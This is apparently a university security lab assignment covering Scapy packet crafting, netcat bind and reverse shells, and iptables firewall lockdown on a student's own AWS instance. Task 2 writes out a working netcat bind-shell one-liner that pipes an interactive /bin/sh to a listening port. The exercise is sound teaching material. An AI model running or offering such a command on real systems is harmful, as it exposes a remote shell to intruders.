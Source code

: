 ## Lab 3 : CEG 3400

### The Terminalator

Table of contents:
* [Background](LAB3-INSTRUCTIONS.md#background)
* [Objectives](LAB3-INSTRUCTIONS.md#objectives)
* [Preparation](LAB3-INSTRUCTIONS.md#preparation)
* [Task 1: Crafting Packets](LAB3-INSTRUCTIONS.md#task-1-crafting-packets)
* [Task 2: A Shell Game](LAB3-INSTRUCTIONS.md#task-2-a-shell-game)
* [Task 3: Iptables](LAB3-INSTRUCTIONS.md#task-3-iptables)
* [Task 4: Any Port ina Storm](LAB3-INSTRUCTIONS.md#task-4-any-port-in-a-storm)

---

#### Background and Objectives

In this lab you will learn about some basic (and more advanced) network manipulation 
tools by catpuring and creating packets, and exploring a well documented type of 
attack.

This lab assumes you have a basic understanding of networking, IP addresses, ports
and packets (from CEG-2350 and what was covered in class).

Students should become familiar with the following:

* creating, sending, and capturing packets with Scapy
* abusing netcat and pipes
* configuring iptables (firewalls)

---

#### Rubrik
| Item | # Points|
| --- | --- |
| 10 commits | 10 |
| Good markdown style | 20 |
| Task 1 | 30 |
| Task 2 | 30 | 
| Task 3 | 20 |
| Task 4 | 30 |

---

#### Preparation

This lab will require all work be done in AWS.  Please deploy the below instance and work inside the lab.

* Click [this cloudformation link](https://console.aws.amazon.com/cloudformation/home?region=us-east-1#/stacks/new?stackName=ceg3400Lab1&templateURL=https:%2F%2Fwsu-cecs-cf-templates.s3.us-east-2.amazonaws.com%2Fcourse-templates%2Fceg3400-mek.yml)
  to deploy your stack
* Identify the IP address of the running EC2 instance created [in the EC2
  page](https://console.aws.amazon.com/ec2/v2/home?region=us-east-1)

---

### Task 1: Crafting Packets

Famliarize yourself with scapy (covered in class) by creating a DNS request for `xkcd.com` and sending
it to `8.8.8.8` (or any DNS server that will respond to you).  Capture the response.

Answer all questions in `README.md`

* [Scapy Documentation](https://scapy.readthedocs.io/en/latest/#interactive-tutorial)


---

### Task 2: A Shell Game

You find the following command in the command history on one of your systems:

```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 1234 >/tmp/f
```

Investigate this command by running it on your AWS system.  While it is running scan the
***PUBLIC*** IP address of your AWS instance.

A security researcher mentioned that an outbreak of Bind and Reverse shells have been cropping 
up on your network recently.  Do some research on ***Bind Shells*** and ***Reverse Shells***.

After you have an understanding of what a Bind shell and reverse shell are see if you can 
make this one respond!

Hint: Try connecting to the opened port with `nc` from a different system.

Again, answer all questions in `README.md`.

---

### Task 3: Iptables

Clearly the previous command should not be left running.  But we can do better.

Using `iptables` block all incoming access to the malicious shell port on your AWS system.

Hint: you can craft a single `iptables` command or you can use `iptables-save` 
and `iptables-restore` to simplify saving the full firewall rules list.

---

### Task 4: Any Port in a Storm

After successfully blocking that shell your crack team of security researchers start 
seeing more malicious shells running on other ports.  Before you can start yelling at
your co-workers you need to lock your system down.

Identify all NEEDED ports for your standard communications with this server (SSH) and 
block ***ALL OTHER PORTS***.

***Hint:*** you will likely mess this up when deploying, be sure to document and 
`git commit` / `git push` all files including your final task 4 iptables-rules file 
before attempting this task.  If you lock yourself out that is OK, just answer all 
questions for this task.


